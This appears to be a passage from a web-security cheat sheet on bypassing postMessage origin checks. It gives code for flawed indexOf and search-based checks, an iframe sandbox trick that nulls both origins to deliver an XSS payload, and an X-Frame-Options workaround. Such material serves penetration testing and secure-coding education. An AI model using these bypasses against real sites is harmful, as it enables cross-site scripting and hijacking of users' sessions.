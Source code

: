 *   **Using `indexOf`:**

    ```javascript
    window.addEventListener('message', function (e) {
        if (e.origin.indexOf("https://legitimate.com") === -1) {
            // Deny
        } else {
            // Allow
        }
    });
    ```

    This check can be bypassed by registering a subdomain like `https://legitimate.com.attacker.site`.
*   **Using `String.search`:**

    ```javascript
    window.addEventListener('message', function (e) {
        if ("https://legitimatesite.com".search(e.origin) === -1) {
            // Deny
        } else {
            // Allow
        }
    });
    ```

    Bypass this by using a domain like `legit.matesite.com`, where the `.` will match any character due to the regex conversion, allowing it to match `legitimatesite.com`.
*   **Bypassing `e.origin === window.origin`:**

    ```javascript
    let f = document.createElement('iframe');
    f.sandbox = 'allow-scripts allow-popups allow-top-navigation';
    f.srcdoc = `
    let w = open('https://so-xss.terjanq.me/iframe.php');
    setTimeout(_ => {
        w.postMessage({type: "render", body: "<audio/src/onerror=\\"${payload}\\">"}, '*');
    }, 1000);
    `;
    ```

    This sets `e.origin` and `window.origin` to `null`, bypassing the check.

## **X-Frame-Header Bypass:**

Some headers like `X-Frame-Options` prevent a webpage from being iframed. To bypass this, you can open a new tab to the vulnerable web application and communicate with it:

```javascript
var w = window.open("<url>");
setTimeout(function(){ w.postMessage('...', '*'); }, 2000);
```

## BYPASS REGEX BASED VALIDATION
